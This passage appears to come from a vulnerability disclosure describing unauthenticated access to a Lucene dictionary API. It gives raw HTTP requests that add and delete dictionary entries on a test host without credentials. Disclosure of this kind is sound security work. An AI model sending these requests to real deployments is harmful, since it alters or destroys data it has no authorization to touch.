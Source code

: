 **Observation:**
- ❌ No authentication required
- ❌ Full dictionary exposed
- ❌ Business terminology revealed

---

### Step 2: Unauthorized Dictionary Addition

**Request:**
```http
POST /api/lucene/dic/addDic/testDic  HTTP/1.1
Host: 198.18.0.1:3000
fingerprint: 00ca00ef0022001b
Referer: http://198.18.0.1:3000/portfolios?page=1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded

```

**Response:**
![img.png](image/dic_img_2.png)


---

### Step 3: Unauthorized Dictionary Deletion

**Request:**
```http
DELETE /api/lucene/dic/deleteDic/testDic HTTP/1.1
Host: 198.18.0.1:3000
fingerprint: 00ca00ef0022001b
Referer: http://198.18.0.1:3000/portfolios?page=1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36

```

